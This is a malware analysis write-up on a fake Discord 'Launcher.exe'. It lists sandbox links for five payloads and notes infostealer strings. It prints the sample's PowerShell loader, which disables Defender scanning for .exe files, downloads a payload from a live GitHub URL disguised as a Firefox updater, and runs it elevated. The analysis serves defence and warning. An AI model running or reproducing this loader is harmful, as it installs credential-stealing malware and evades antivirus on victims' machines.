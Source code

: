 ### ❌ Fake user:

![[image (2).png]]
### ✅ Real user:

![[image (3).png]]
---

## 📦 2. Payload Chain

The PowerShell script downloads 5 payloads from GitHub:
## 🧪 Triage

Initial sample – **Launcher.exe from Discord**  
[Sandbox Link](https://tria.ge/250401-jxxhrsyly6/behavioral1)

### Payloads:
- Payload 1: https://tria.ge/250401-l4tfsszkz9/behavioral1
- Payload 2: https://tria.ge/250401-l8p9yaxvc1/behavioral1
- Payload 3: https://tria.ge/250401-l8yajszlt6/behavioral1
- Payload 4: https://tria.ge/250401-l7htgazls9/behavioral1
- Payload 5: https://tria.ge/250401-l5p5rsxvbz/behavioral1

Grabbed from:  
https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/

---

> ⚠️⚠️ WARNING: This PowerShell is **malicious**. Do not run it. ⚠️⚠️  
> For **educational purposes only** – shown here as part of analysis.

```powershell
Set-MpPreference -ExclusionExtension *.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Lapresse-Hugo/MalwareDatabase/refs/heads/master/Unknown/1.zip" -OutFile "$Env:LocalAppData\Updates\firefox_updater.exe"; Start-Process -Verb RunAs -Filepath "$Env:LocalAppData\Updates\firefox_updater.exe"
# continues with all 5 payloads and sets up scheduled tasks
```

---

> Despite `.zip` extension, all are PyInstaller-packed `.exe` files

### Payload Analysis (via Detect It Easy):
- **Payloads 1, 3, 5** → PyInstaller executables
-
![[image.webp]]

- Show signs of being infostealers (strings: `master_key`, `passwords`, `webhook_url`, `ImageGrab`, etc.)

---